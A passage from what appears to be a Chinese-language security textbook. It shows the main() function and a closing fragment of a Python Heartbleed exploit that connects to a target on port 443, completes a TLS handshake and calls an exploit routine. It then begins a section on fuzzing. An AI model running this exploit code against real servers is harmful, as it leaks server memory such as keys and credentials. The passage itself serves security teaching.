 ```
    socket.close()
```

`0x15`的类型值表示一个心跳响应数据包 ➊。接下来，我们发送格式错误的请求 ➋，然后读取四个响应数据包 ➌。最后，我们打印负载 ➍。

#### ***将所有内容结合起来***

在程序的主方法中，我们将创建套接字，发送数据包，并等待*服务器完成*响应。将以下代码复制到你的文件中：

```
def main():

     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

  ➊ s.connect((sys.argv[1], 443))

  ➋ s.send(array.array('B',clientHello))

     serverHelloDone = False

  ➌ while not serverHelloDone:

        type, version, payload, msgType  = readPacket(s)

        if (msgType == SERVER_HELLO_DONE):

            serverHelloDone = True

  ➍ exploit(s)
if __name__ == '__main__':

    main()
```

在创建了套接字之后，我们可以连接到作为命令行参数传入的 IP 地址 ➊。我们将在 443 端口连接，因为它与我们正在攻击的 TLS 协议相关联。连接后，我们通过发送*客户端 Hello*消息 ➋来启动 TLS v1.2 连接。然后，我们将监听响应消息并检查每种类型，直到收到*服务器完成*消息 ➌。最后，我们调用`exploit()`函数 ➍。

### **模糊测试**

黑客是如何发现像 Heartbleed 这样的漏洞的？正如你刚才看到的，利用这个漏洞的过程如此复杂，令人惊讶的是任何人能用高效的方法发现它。Google 甚至有一个专门的团队，叫做 Project Zero，专门负责发现零日漏洞。（如果你感兴趣，这个团队会在它的博客上发布它们发现的新漏洞，地址是* [`googleprojectzero.blogspot.com/`](https://googleprojectzero.blogspot.com/)*。）接下来，我们将讨论一些攻击者和安全研究人员用来发现像 Heartbleed 这样的漏洞的工具和技术，从一种名为*模糊测试*的测试技术开始。

模糊测试技术试图生成输入，探索程序中的所有可能路径，希望能发现一个导致程序崩溃或表现出非预期行为的路径。模糊测试最早由威斯康星大学的教授巴顿·米勒（Barton Miller）于 1988 年提出。从那时起，像 Google 和 Microsoft 这样的公司开发了自己的模糊测试工具，并使用模糊测试来测试他们的系统。

#### ***一个简化的例子***

为了理解模糊测试的基本概念，我们将从考虑以下示例函数开始，该函数最初由塔夫茨大学的 Jeff Foster 提出：

```
def testFunction(a,b,c):

   x, y, z = 0, 0, 0

   if (a):

       x = -2

   if (b < 5):

      if (not a and c):

         y = 1

      z = 2

```